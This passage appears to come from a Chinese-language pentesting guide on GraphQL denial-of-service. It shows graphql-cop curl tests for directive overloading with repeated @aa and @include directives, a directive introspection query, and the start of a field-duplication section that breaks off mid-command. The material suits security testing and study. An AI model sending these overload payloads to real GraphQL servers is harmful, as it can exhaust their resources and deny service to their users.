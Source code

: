 {% code overflow="wrap" %}
```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa }", "operationName": "cop"}' \
'https://example.com/graphql'
```
{% endcode %}

请注意，在前面的示例中，`@aa` 是一个**可能未声明**的自定义指令。通常存在的一个常见指令是 **`@include`**：

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @include(if: true) @include(if: true) @include(if: true) @include(if: true) @include(if: true) }", "operationName": "cop"}' \
'https://example.com/graphql'
```
{% endcode %}

您还可以发送一个 introspection 查询以发现所有声明的指令：
```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "{ __schema { directives { name locations args { name type { name kind ofType { name } } } } } }"}' \
'https://example.com/graphql'
```
然后**使用一些自定义的**。

### **字段重复漏洞**

**字段重复**是一种漏洞，其中GraphQL服务器允许查询中重复过多的相同字段。这迫使服务器为每个实例冗余地解析该字段，消耗大量资源（CPU、内存和数据库调用）。攻击者可以构造包含数百或数千个重复字段的查询，导致高负载，并可能导致**服务拒绝（DoS）**。
```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" -H "Content-Type: application/json" \
```